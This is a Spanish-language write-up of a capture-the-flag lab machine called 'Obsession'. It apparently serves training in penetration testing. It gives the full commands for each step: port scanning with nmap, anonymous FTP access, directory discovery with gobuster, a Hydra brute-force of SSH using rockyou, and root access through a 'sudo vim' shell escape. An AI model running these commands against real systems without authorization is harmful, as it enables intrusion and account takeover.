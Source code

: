 ```yaml
---
description: '✍️ Autor: Juan🔍 Dificultad: Muy Fácil  📅 Fecha de creación: 25/06/2024'
---
```


# Obsession

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (1).png>)

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

Observamos que el puerto **21** tiene dos archivos que podrían contener información relevante, y que la conexión es permitida con el usuario **anonymous** y sin contraseña, por lo que nos conectaremos a través de **FTP**. Esto lo sabemos ya que la versión es vulnerable a esas credenciales.

![](<../../.gitbook/assets/3 (1).png>)

Tras entrar, debemos listar y descargar los archivos que se mostraban anteriormente a través de los comandos:

```bash
ls
get chat-gonza.txt
get pendientes.txt
```

![](<../../.gitbook/assets/4 (1).png>)

Ahora mostramos el contenido de esos archivos con:

```bash
cat chat-gonza.txt
cat pendientes.txt
```

![](<../../.gitbook/assets/5 (1).png>)

Con esto, descubrimos información de algunos de los usuarios e información de los permisos, lo que nos proporciona datos relevantes.

Seguimos indagando más sobre los puertos y ahora investigamos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web nos muestre un blog de entrenamiento personal.

![](<../../.gitbook/assets/6 (1).png>)

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos dos directorios que son `/backup/` y `/important/`, por lo que los revisamos y su contenido a continuación.

![](<../../.gitbook/assets/8 (1).png>)

![](<../../.gitbook/assets/9 (1).png>)

Con esto, descubrimos que el usuario es **russoski**. Continuamos con el siguiente directorio.

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

Parece ser que esto último no tiene nada relevante, por lo que nos centramos en lo que hemos descubierto anteriormente, que es el usuario.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **russoski**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh russoski@172.17.0.2
```

![](../../.gitbook/assets/13.png)

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](../../.gitbook/assets/14.png)

Observamos que podemos escalar privilegios con **vim** usando el comando:

```bash
sudo vim -c ':!/bin/sh'
```

Tras eso, ponemos:

```bash
id
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
